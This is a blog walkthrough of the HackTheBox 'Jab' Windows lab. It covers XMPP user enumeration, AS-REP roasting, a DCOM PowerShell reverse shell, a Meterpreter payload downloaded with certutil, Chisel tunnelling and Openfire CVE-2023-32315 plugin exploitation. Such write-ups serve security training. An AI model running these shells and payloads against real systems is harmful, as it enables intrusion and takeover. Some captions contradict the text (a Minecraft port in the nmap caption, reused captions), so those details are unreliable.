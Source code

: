 ```yaml
---
title: "CTF: Jab (Windows, Medium)"
excerpt: "A detailed walkthrough of \"Jab\" machine on HackTheBox."
tagline: "Private chats are not so private."
header:
  teaser: /docs/assets/images/teasers/ctf/jab.png
  og_image: /docs/assets/images/teasers/ctf/jab.png
  overlay_image: /docs/assets/images/teasers/ctf/jab2.png
author_profile: false
share: false
tags:
  - HackTheBox
  - Windows
  - Difficulty-Medium
categories:
  - CTF
toc: true
toc_sticky: true
toc_label: "Table of Contents"
---
```


## Description

This is a detailed walkthrough of "Jab" machine on HackTheBox that is based on Windows operating system and categorized as "Medium" by difficulty. Infiltrate a private XMPP chat room to discover a path towards exploiting Openfire - an instant messaging and groupchat server.

## Reconnaissance

Run **nmap**:

```bash
nmap -sV -T4 <IP>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/nmapscan.png" alt="">
  <figcaption>Ports 80 HTTP and 25565 Minecraft are open.</figcaption>
</figure>

Nmap scan reveals XMPP service running on port 5269. XMPP is an open communication protocol designed for instant messaging, presence information, and contact list maintenance. Based on XML, it enables the near-real-time exchange of structured data between two or more network entities. You can learn more about it on [https://xmpp.org](https://xmpp.org).

There are several popular XMPP clients available, in this scenario we will use [Pidgin](https://www.pidgin.im) XMPP client to connect to the messaging server.

```bash
# Install Pidgin with the following command
sudo apt install pidgin
```
Run Pidgin and, when prompted, add a new account specifying target domain name:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate.png" alt="">
  <figcaption></figcaption>
</figure>

On the advanced settings tab, set Connection security to *"Use encryption if available"*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pidginaccountcreate2.png" alt="">
  <figcaption></figcaption>
</figure>

Click "Add". You should connect to the server successfully. Go to Tools - Plugins, enable *XMPP Console* and *Service Discovery*:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/plugins.png" alt="">
  <figcaption></figcaption>
</figure>

Select XMPP Service Discovery from Tools dropdown menu. It will show the following available services on the webserver:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/xmppservices.png" alt="">
  <figcaption></figcaption>
</figure>

From Tools menu, open XMPP Console. Then go to Accounts - your user - Search for Users. Advanced User Search will open, search users by wildcard:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearch.png" alt="">
  <figcaption></figcaption>
</figure>

You should get a list of all users both in XMPP Console and Advanced User Search results:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/usersearchresults.png" alt="">
  <figcaption></figcaption>
</figure>

Copy the output from XML Console to a text file. Then modify the XML Output to only contain unique strings with usernames and save them to another file for your comfort. The following command should do the trick:

```bash
cat users.txt | grep ".htb" | uniq | sed 's/<value>//g;s/<\/value>//g' | tr -d ' ' > filename
```

Modify the file manually if there will be any leftover lines that do not represent usernames. Your final list should look like this:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userlist.png" alt="">
  <figcaption></figcaption>
</figure>

The discovered usernames appear to be domain users. It is possible use them in [ASREP-Roasting](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/asreproast) attack using **GETNPUsers.py** from **Impacket** tools to possibly get some user's account hash.

```bash
# Run GetNPUsers.py and convert hashes into a format suitable for JohnTheReaper, place output in hashes.txt
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py jab.htb/ -usersfile asrepusers.txt -format john -outputfile hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/getnpusersrun.png" alt="">
  <figcaption>Running GetNPUsers.py</figcaption>
</figure>

The process will take some time as our user list is quite long, but eventually the tool will extract 3 password hashes for users that did not have Kerberos pre-authentication enabled.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/asrepresults.png" alt="">
  <figcaption></figcaption>
</figure>

Now let's attempt to crack them with **JohnTheReaper**:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/asrepresults.png" alt="">
  <figcaption>Got a password for jmontgomery user!</figcaption>
</figure>

We have discovered our first set of credentials. Use them to login to XMPP server as **jmontgomery**. Search for services again. As **jmontgomery**, you will see a **new chat room** that was not visible previously:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroom.png" alt="">
  <figcaption></figcaption>
</figure>

Join **"pentest2003"** chat:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/newchatroomjoin.png" alt="">
  <figcaption></figcaption>
</figure>

Read the chat. In the conversation, you can see a leaked hash/password for **svc_openfire** user / service:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/svcopenfirehash.png" alt="">
  <figcaption></figcaption>
</figure>


## Exploitation / Foothold


The target host has RPC service running on port 135. Attempting to use **DCOM RCE** technique to gain foothold on the system (**dcomexec.py from Impacket tools**):


```bash
# Start a Netcat listener on desired port:
nc -lnvp <PORT>
# Generate a base64-encoded reverse shell payload for Windows (for example, on revshells.com)
# Run dcomexec.py with the generated payload:
sudo python dcomexec.py -object MMC20 -dc-ip <TARGET_IP> -debug jab.htb/'svc_openfire':'<PASSWORD>'@<TARGET_IP> 'cmd.exe /c powershell -e <BASE64-ENCODED REVERSE SHELL>' -silentcommand
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/dcomexecrun.png" alt="">
  <figcaption></figcaption>
</figure>

If executed successfully, a callback should be received on Netcat listener:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/callback.png" alt="">
  <figcaption></figcaption>
</figure>

### User flag

Claim user flag in *c:\users\svc_openfire\desktop* folder:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/userflag.png" alt="">
  <figcaption></figcaption>
</figure>


## Privilege escalation

To improve our capabilities, let's obtain a Meterpreter shell.

```bash
# Generate Meterpreter executable with msfvenom:
msfvenom  -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<PORT> -f exe > <filename>
# Start Metasploit and Meterpreter listener:
msfconsole
set payload windows/x64/meterpreter/reverse_tcp
set lhost <YOUR_IP>
set lport <PORT>
run
# Start Python HTTP server:
python3 -m http.server <PORT>
# On target host, download the generated file from your Python HTTP server:
certutil.exe -urlcache -split -f "http://<IP>:<PORT>/<filename>" <filename>
# Execute it
.\<filename>
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/backdoorexe.png" alt="">
  <figcaption>Transferring and calling Meterpreter executable.</figcaption>
</figure>


You should receive a callback in Metasploit. Let's enumerate applications on the target host with *post/windows/gather/enum_applications* module:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/enum_applications.png" alt="">
  <figcaption></figcaption>
</figure>

It's possible to deduce that the messaging server is based on **Openfire** (however, we could deduce this from the username as well). Enumeration of active connections with **netstat** shows that Openfire is listening internally on port 9090:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/netstat.png" alt="">
  <figcaption></figcaption>
</figure>

From here it is necessary to perform port forwarding in order to reach Openfire on internal port. Unfortunately, Meterpreter's port forwarding module did not work during my walkthrough, so I had to resort to [Chisel](https://github.com/jpillora/chisel/releases/tag/v1.7.3). Download a Windows x64 executable for the target machine and a Linux x64 one for yours. Transfer the Windows Chisel executable to the target host with the HTTP method shown previously. Then run the following:

```bash
# Attacker
./chisel_1.7.4_linux_amd64 server --reverse --port 9000
# Target
chisel_1.7.4_windows_amd64 client <YOUR_IP>:9000 9090:127.0.0.1:9090
```

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/chisel.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

If a tunnel has been established successfully, you can navigate to *127.0.0.1:9090* to reach Openfire Administration Console. Login with **svc_openfire** credentials:

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/openfireconsole.png" alt="">
  <figcaption>Tunnel established.</figcaption>
</figure>

### CVE-2023-32315

Vulnerability research for Openfire v.4.7.5. leads to **CVE-2023-32315** - Openfire Path Traversal which can be further exploited to gain unauthorized access to Openfire console and Remote Code Execution. Since we already have a set of credentials, we do not need to bypass authentication; we can proceed to the RCE part. For those interested, here's a could [article](https://vulncheck.com/blog/openfire-cve-2023-32315) that explains CVE-2023-32315 exploitation in more detail.

Download the following [exploit](https://github.com/miko550/CVE-2023-32315) from GitHub.


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/exploit.png" alt="">
  <figcaption></figcaption>
</figure>

Highlighted is a malicious "Management tool" plugin that will allow us to obtain RCE on the system and escalate privileges to Administrator. Upload the plugin in "Plugins" section.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/pluginupload.png" alt="">
  <figcaption></figcaption>
</figure>


Navigate to Server - Server Settings - Management Tool. In the admin login panel, enter **123**. Select **system command** from dropdown menu. Background your current Meterpreter session with CTRL + Z and run the listener again. In the plugin's "Execute command" field, specify the path to the Meterpreter executable we have uploaded previously:


<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/execcommand.png" alt="">
  <figcaption></figcaption>
</figure>

You will receive a Meterpreter shell as Administrator user.

<figure class="align-center">
  <img src="{{ site.url }}{{ site.baseurl }}/docs/assets/images/post_images/jab/adminshell.png" alt="">
  <figcaption></figcaption>
</figure>


### Root flag

Claim root flag in *c:\users\administrator\desktop\root.txt*




**Thank you for your attention and happy hacking!**
{: .notice--primary}
